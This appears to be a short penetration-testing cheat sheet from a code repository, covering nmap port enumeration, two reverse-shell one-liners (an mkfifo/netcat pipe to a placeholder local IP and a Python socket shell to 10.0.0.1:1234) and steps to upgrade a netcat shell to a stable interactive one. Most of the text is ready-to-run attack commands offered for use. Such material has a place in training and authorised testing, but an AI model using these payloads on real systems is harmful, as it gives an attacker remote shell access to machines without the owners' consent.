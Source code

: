 # Enumeration

```
nmap -sC -sV -p 1-10000 <ip>
```
-sC: to perform default script scans\
-sV: Probe open ports to determine service/version info\
-p: ports to scan

We can also use the following which only scans open ports.
```
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```

# Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.
